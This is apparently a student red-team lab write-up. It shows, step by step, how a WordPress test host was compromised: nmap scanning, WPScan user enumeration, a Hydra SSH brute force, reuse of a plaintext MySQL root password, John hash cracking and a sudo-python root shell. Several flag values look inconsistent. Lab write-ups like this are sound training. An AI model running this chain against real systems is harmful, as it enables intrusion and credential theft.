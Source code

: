 # Red Team: Summary of Operations

## Table of Contents
- Exposed Services
- Critical Vulnerabilities
- Exploitation

### Network Topology
![Network Topology](/Images/Final_project_top.JPG)

### Exposed Services

Nmap scan results for each machine reveal the below services and OS details:

```bash
$ nmap -sS 192.168.1.110
```
![Nmap Scan](/Images/NmapScan.png)


This scan identifies the services below as potential points of entry:
- Target 1
  - Port 22	SSH
  - Port 80	http
  - Port 111	rpcbind
  - Port 139	netbios-ssn
  - Port 445	microsoft-ds

The following vulnerabilities were identified on each target:
- Target 1
  - CWE-200: Exposure of Sensitive Information to an Unauthorized Actor 
  - CWE-672: Operation on a Resource after Expiration or Release
  - CWE-521: Weak Password Requirements 
  - CWE-307: Improper Restriction of Excessive Authentication Attempts 
  - CWE-256: Unprotected Storage of Credentials
  - CWE-522: Insufficiently Protected Credentials
  - CWE-863: Incorrect Authorization Reverse shell vulnerability 

![SSHVuln](/Images/SSHVuln.png)

### Exploitation

The Red Team was able to penetrate `Target 1` and retrieve the following confidential data:
- Target 1
  - `flag1.txt`: b9bbcb33ellb80be759c4e844862482d
    - **Exploit Used**
      - WPScan to enumerate users
        - wpscan --url 192.168.1.110/wordpress/ --enumerate u
        - ![WPScan](/Images/WPScan.png)
      - Use Hydra to crack michael's password or guess password
        - hydra -l michael -P /usr/shar/wordlists/rockyou.txt 192.168.1.110 ssh
        - ![Hydra](/Images/Hydra.PNG)
      - Use stolen credentials to SSH into michael's account
        - ssh michael@192.168.1.110
        - Password: michael
      - Search for Flag1
        - grep -rnw ./ -e 'flag1' 2>/dev/null
        - ![flag1](/Images/Flag1.PNG)

  - `flag2.txt`: fc3fd58dcdad9ab23faca6e9a3e581c
    - **Exploit Used**
      - Search for Flag2 in /var/www
      - cd /var/www
      - grep -rnw ./ -e 'flag2' 2>/dev/null
      - ![flag2](/Images/Flag2.PNG)

  - `flag3.txt`: fc3fd58dcdad9ab23faca6e9a3e581c
    - **Exploit Used**
      - Find plain text password my MySQL database
        - grep -rnw ./ -e 'password' 2>/dev/null
        - nano /var/www/html/wordpress/wp-config.php
        - ![PlaintextPW](/Images/PlaintextPW.PNG)
      - Access and search MySQL database for usernames and passwords
        - mysql -u root -p'R@3nSecurity'
        - ![My1](/Images/Mysql1.png)
        - ![My2](/Images/Mysql2.png)
        - select post_content from wp_posts
        - ![My3](/Images/Mysql3.png)

  - `flag4.txt`: fc3fd58dcdad9ab23faca6e9a3e581c
    - **Exploit Used**
      - Find user hashed password
        - ![hash](/Images/HashPW.png)
      - Crack user hashed password with Jack the Ripper
        - Create a .txt file with the usernames and hash passwords
          - ![hashtxt](/Images/HashPWtext.png)
        - john hash_pw.txt
          - ![Cracked](/Images/Cracked.PNG)
      - Log in as Steven with cracked password
        - ![SSHSteven](/Images/SSHSteven.png)
      - Escalate to root
        - ![UserPrivilages](/Images/UserPrivilages.png)
        - sudo python -c ‘import pty;pty.spawn(“/bin/bash”)’
      - Search for flag4
        - find . -name flag4.txt
        - ![flag4](/Images/flag4.png)



